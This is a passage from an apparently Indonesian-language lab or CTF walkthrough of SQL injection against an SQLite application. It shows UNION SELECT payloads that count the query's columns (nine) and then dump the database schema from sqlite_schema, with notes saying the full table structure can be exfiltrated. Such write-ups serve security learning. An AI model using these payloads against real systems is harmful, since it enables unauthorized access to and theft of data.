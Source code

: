   Masih error → artinya jumlah kolom belum cocok.

* Tambahkan `'a'` hingga tidak ada error.

  ```
  orange'))+UNION+SELECT+'a','a','a','a','a','a','a','a','a'--
  ```

  <img width="1919" height="1134" alt="image" src="https://github.com/user-attachments/assets/ee6dd2dd-f909-44d1-840e-411f24082cda" />  

  **Hasil:** Tidak ada error → jumlah kolom = **9**.

---

### 5. Ekstrak schema database

Gunakan `sqlite_schema` untuk mendapatkan definisi seluruh tabel dan struktur database.

Payload:

```
orange'))+UNION+SELECT+'a','a','a','a','a','a','a','a',sql+FROM+sqlite_schema--
```

<img width="1919" height="1140" alt="image" src="https://github.com/user-attachments/assets/59ac8d25-3050-4922-a6a8-ff5aee2ba325" />

---

## Catatan

* **Langkah penting:** menentukan jumlah kolom dengan benar sebelum menggunakan `UNION`.
* Dari hasil query terhadap `sqlite_schema`, terlihat bahwa database yang digunakan adalah **SQLite**.
* Dengan teknik ini, seluruh struktur tabel, kolom, dan relasi dalam database dapat dieksfiltrasi.

